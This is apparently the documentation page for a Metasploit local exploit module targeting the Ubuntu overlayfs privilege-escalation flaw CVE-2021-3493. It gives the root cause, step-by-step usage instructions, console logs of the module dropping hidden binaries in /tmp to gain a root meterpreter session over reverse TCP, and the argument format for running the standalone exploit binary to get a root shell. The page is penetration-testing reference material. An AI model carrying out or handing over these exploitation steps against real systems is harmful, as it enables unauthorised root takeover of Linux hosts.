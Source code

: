 ## Vulnerable Application

This module exploits a vulnerability in Ubuntu's implementation of overlayfs.  The
vulnerability is the result of failing to verify the ability of a user to set the
attributes in a running executable. Specifically, when Overlayfs sends the set attributes
data to the underlying file system via `vfs_setxattr`, it fails to first verify the data
by calling `cap_convert_nscap`.
This vulnerability was patched by moving the call to `cap_convert_nscap`
into the `vfs_setxattr` function that sets the attribute, forcing verification every time the
`vfs_setxattr` is called rather than trusting the data was already verified.

### Install

Install Ubuntu from version 14.04LTS to 20.04 LTS

## Verification Steps

1. Make an Ubuntu
1. Create a meterpreter or shell payload and upload it to the Ubuntu target
1. Set up a handler for the payload
1. Launch the payload as a regular user on the Ubuntu Target and connect the handler
1. Do: `use exploit/linux/local/cve_2021_3943_overlayfs`
1. Do: `set payload <payload>`
1. Do: `set lhost <ip>`
1. Do: `set [r|l]port <port>`
1. Do: `run`
1. You should get a root session

## Options

### COMPILE

[Auto|True|False] This selects the binary to use.  True will upload the source code and perform
compilation on target, False will upload a precompiled binary.  AUTO will favor compiling on target
but will fall back to the precompiled option if a compiler cannot be found.

### WritableDir

This indicates the location where you would like the payload and exploit binary stored, as well
as serving as a location to store the various files and directories created by the exploit itself.
The default value is `/tmp`

## Scenarios

### Ubuntu 20.04.0 x64

```
msf exploit(linux/local/cve_2021_3493_overlayfs) > 
[*] Sending stage (3012548 bytes) to 192.168.132.138
[*] Meterpreter session 9 opened (192.168.135.197:4567 -> 192.168.132.138:47988 ) at 2021-11-09 11:34:44 -0600

msf exploit(linux/local/cve_2021_3493_overlayfs) > sessions -i 9
[*] Starting interaction with 9...

meterpreter > sysinfo
Computer     : ubuntu-20.04.0
OS           : Ubuntu 20.04 (Linux 5.4.0-26-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > getuid
Server username: msfuser
meterpreter > background
[*] Backgrounding session 9...
msf exploit(linux/local/cve_2021_3493_overlayfs) > set session 9
session => 9
msf exploit(linux/local/cve_2021_3493_overlayfs) > run

[*] Started reverse TCP handler on 192.168.135.197:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Version array: ["5.4.0", "26", "generic"]
[*] major_version: 5.4.0
[*] minor_version: 26
[+] The target appears to be vulnerable.
[*] Creating directory /tmp/.wH0xRHji
[*] /tmp/.wH0xRHji created
[*] Dropping pre-compiled exploit on system...
[*] Writing '/tmp/.wH0xRHji/.PsJzzn' (17840 bytes) ...
[*] Writing '/tmp/.wH0xRHji/.Doeg4dSW1G' (250 bytes) ...
[*] Launching exploit...
[*] Running: /tmp/.wH0xRHji/.PsJzzn /tmp/.wH0xRHji/.Doeg4dSW1G /tmp/.wH0xRHji 6PFbO1d
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3012548 bytes) to 192.168.132.138
[+] Deleted /tmp/.wH0xRHji/.PsJzzn
[*] Meterpreter session 10 opened (192.168.135.197:4444 -> 192.168.132.138:41814 ) at 2021-11-09 11:35:05 -0600
[*] 

meterpreter > getuid
Server username: root
```

### Included Binaries
The binaries used by this exploit `data/exploits/CVE-2021-3493/cve_2021_3493.x64.elf` and
`data/exploits/CVE-2021-3493/cve_2021_3493.x64.elf` can and be used separately from
metasploit.  The parameters required are:
```
// argv[1] = The payload or executable you wish to launch
// argv[2] = A directory to store the files and directories created when the exploit runs
// argv[3] = A random string that is used to create directory names.
```
```
msfuser@ubuntu-18041:~$ id
uid=1000(msfuser) gid=1000(msfuser) groups=1000(msfuser),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lpadmin),126(sambashare)
msfuser@ubuntu-18041:~$ mkdir /tmp/test
msfuser@ubuntu-18041:~$ ./cve_2021_3493.x64.elf /bin/bash /tmp/test abcdef
root@ubuntu-18041:~# id
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lpadmin),126(sambashare),1000(msfuser)
root@ubuntu-18041:~# 
```

